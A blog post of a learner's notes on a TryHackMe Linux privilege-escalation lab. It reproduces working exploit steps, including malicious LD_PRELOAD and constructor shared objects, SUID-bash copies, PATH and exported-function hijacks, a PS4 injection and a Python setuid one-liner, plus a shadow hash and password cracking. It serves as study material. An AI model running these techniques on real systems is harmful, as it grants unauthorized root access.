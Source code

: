 ```yaml
---
layout: post
title:  "TCM: Linux Priviledge Escalation"
date:   2024-02-04 13:50:01 -0600
categories: TCM
image: /assets/img/linux-privescalation.png
---
```

[Linux PrivEsc Lab](https://tryhackme.com/room/linuxprivescarena)
# Sudo & SUID

Following the course, it starts to get more difficult, when going through the Sudo in 
## Task 8 Sudo (Abusing Intended Functionality)

Shell escaping was fairly straight forward except he didnt explain the multiple lines.
When you have something from gtfobins
```
TERM= sudo more /etc/profile
!/bin/sh
```
it means type the lines 1 at a time, so the second line would be typed after your run the 1st one

## Task 9 Sudo (LD_PRELOAD)
I didn't like this as you had to understand john the ripper, but luckily I was halfway thru the [John the Ripper](
https://tryhackme.com/room/johntheripper0) room so that help get the syntax correct, and look at that wordlist.  Where is that?

```
Your hash.txt file should look like this:
root:$6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVlaXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0:17298:0:99999:7:::


john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt --format=sha512crypt
```
I added the password in the rockyou.txt file so I can make this run, but the format was missing

## Task 10
Here's where the REAL learning begins.  He is using the LD_PRELOAD to preload a c file 

Linux VM

1. In command prompt type: sudo -l
2. From the output, notice that the LD_PRELOAD environment variable is intact.

1. Open a text editor and type:

#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/bash");
}

2. Save the file as x.c
3. In command prompt type:
gcc -fPIC -shared -o /tmp/x.so x.c -nostartfiles
4. In command prompt type:
sudo LD_PRELOAD=/tmp/x.so apache2
5. In command prompt type: id

I really enjoyed this one and had to practice several times before understanding what I'm doing.

## Task 11 SUID (Shared Object Injection)
I would actually STOP here and make sure you understand what he's doing in Task 10.  

Its very similar except he's running suid-so

Linux VM

1. In command prompt type: find / -type f -perm -04000 -ls 2>/dev/null
2. From the output, make note of all the SUID binaries.
3. In command line type:
strace /usr/local/bin/suid-so 2>&1 | grep -i -E "open|access|no such file"
4. From the output, notice that a .so file is missing from a writable directory.

Linux VM

5. In command prompt type: mkdir /home/user/.config
6. In command prompt type: cd /home/user/.config
7. Open a text editor and type:

#include <stdio.h>
#include <stdlib.h>

static void inject() __attribute__((constructor));

void inject() {
    system("cp /bin/bash /tmp/bash && chmod +s /tmp/bash && /tmp/bash -p");
}

8. Save the file as libcalc.c
9. In command prompt type:
gcc -shared -o /home/user/.config/libcalc.so -fPIC /home/user/.config/libcalc.c
10. In command prompt type: /usr/local/bin/suid-so
11. In command prompt type: id

## Task 12 SUID (Symlinks)

This uses symlink which I'm not too experienced with, but he's using that link to execute in the logs

Linux VM – Terminal 1

1. For this exploit, it is required that the user be www-data. To simulate this escalate to root by typing: su root
2. The root password is password123
3. Once escalated to root, in command prompt type: su -l www-data
4. In command prompt type: /home/user/tools/nginx/nginxed-root.sh /var/log/nginx/error.log
5. At this stage, the system waits for logrotate to execute. In order to speed up the process, this will be simulated by connecting to the Linux VM via a different terminal.

Linux VM – Terminal 2

1. Once logged in, type: su root
2. The root password is password123
3. As root, type the following: invoke-rc.d nginx rotate >/dev/null 2>&1
4. Switch back to the previous terminal.

Linux VM – Terminal 1

1. From the output, notice that the exploit continued its execution.
2. In command prompt type: id

Probably have to re-watch this video

## Task 13 SUID (Environment Variables #1)

### Detection

Linux VM

1. In command prompt type: find / -type f -perm -04000 -ls 2>/dev/null
2. From the output, make note of all the SUID binaries.
3. In command prompt type: strings /usr/local/bin/suid-env
4. From the output, notice the functions used by the binary.

### Exploitation

Linux VM

1. In command prompt type:
echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0; }' > /tmp/service.c
2. In command prompt type: gcc /tmp/service.c -o /tmp/service
3. In command prompt type: export PATH=/tmp:$PATH
4. In command prompt type: /usr/local/bin/suid-env
5. In command prompt type: id

## Task 14 SUID (Environment Variables #2)

### Detection

Linux VM

1. In command prompt type: find / -type f -perm -04000 -ls 2>/dev/null
2. From the output, make note of all the SUID binaries.
3. In command prompt type: strings /usr/local/bin/suid-env2
4. From the output, notice the functions used by the binary.

### Exploitation Method #1

Linux VM

1. In command prompt type:
function /usr/sbin/service() { cp /bin/bash /tmp && chmod +s /tmp/bash && /tmp/bash -p; }
2. In command prompt type:
export -f /usr/sbin/service
3. In command prompt type: /usr/local/bin/suid-env2

### Exploitation Method #2

Linux VM

1. In command prompt type:
```
env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp && chown root.root /tmp/bash && chmod +s /tmp/bash)' /bin/sh -c '/usr/local/bin/suid-env2; set +x; /tmp/bash -p'
```
## Task 15 Capabilities

### Detection

Linux VM

1. In command prompt type: getcap -r / 2>/dev/null
2. From the output, notice the value of the “cap_setuid” capability.

Exploitation

### Linux VM

1. In command prompt type:
```
/usr/bin/python2.6 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```